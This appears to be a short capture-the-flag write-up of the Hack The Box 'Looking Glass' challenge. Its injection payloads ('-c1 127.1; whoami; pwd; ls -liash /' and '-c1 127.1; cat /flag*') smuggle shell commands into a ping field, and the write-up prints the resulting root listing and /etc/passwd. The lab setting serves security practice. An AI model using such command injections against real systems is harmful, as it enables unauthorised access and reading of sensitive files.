

---
tags:

- HTB
- OWASP
- processes
- threads
- memory
- dll

---

# Looking Glass

## Overview

```bash
cat /
4878116 4.0K drwxr-xr-x   1 root root 4.0K Jun 19 20:46 .
4878116 4.0K drwxr-xr-x   1 root root 4.0K Jun 19 20:46 ..
5919380 4.0K drwxr-xr-x   1 root root 4.0K Nov  2  2020 bin
5914758 4.0K drwxr-xr-x   2 root root 4.0K Sep 19  2020 boot
      1    0 drwxr-xr-x   5 root root  360 Jun 19 20:46 dev
5922657 4.0K -rw-------   1 root root  127 Nov  2  2020 entrypoint.sh
5922638 4.0K drwxr-xr-x   1 root root 4.0K Jun 19 20:46 etc
5922644 4.0K -rw-r--r--   1 root root   37 Nov  2  2020 flag_XLbj5
5914920 4.0K drwxr-xr-x   2 root root 4.0K Sep 19  2020 home
5919648 4.0K drwxr-xr-x   1 root root 4.0K Nov  2  2020 lib
5915134 4.0K drwxr-xr-x   2 root root 4.0K Oct 12  2020 lib64
5915136 4.0K drwxr-xr-x   2 root root 4.0K Oct 12  2020 media
5915137 4.0K drwxr-xr-x   2 root root 4.0K Oct 12  2020 mnt
5915138 4.0K drwxr-xr-x   2 root root 4.0K Oct 12  2020 opt
      1    0 dr-xr-xr-x 471 root root    0 Jun 19 20:46 proc
5915140 4.0K drwx------   2 root root 4.0K Oct 12  2020 root
5915143 4.0K drwxr-xr-x   1 root root 4.0K Jun 19 20:46 run
5919675 4.0K drwxr-xr-x   1 root root 4.0K Nov  2  2020 sbin
5915211 4.0K drwxr-xr-x   2 root root 4.0K Oct 12  2020 srv
      1    0 dr-xr-xr-x  13 root root    0 May 31 21:31 sys
5919677 4.0K drwxrwxrwt   1 root root 4.0K Jun 19 20:46 tmp
5919678 4.0K drwxr-xr-x   1 root root 4.0K Oct 12  2020 usr
5922050 8.0K drwxr-xr-x   1 root root 4.0K Nov  2  2020 var
5922648 4.0K drwxr-xr-x   2 root root 4.0K Nov  2  2020 www

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
www:x:1000:1000::/home/www:/bin/sh
```

## Progress

```bash
ip a s tun0

export IP="94.237.63.201"
export Port=40316

ping -c4 $IP
```

```bash
firefox http://$IP:$Port &
```



```firefox
# browser

-c1 127.1; whoami; pwd; ls -liash /
-c1 127.1; cat /flag*
```
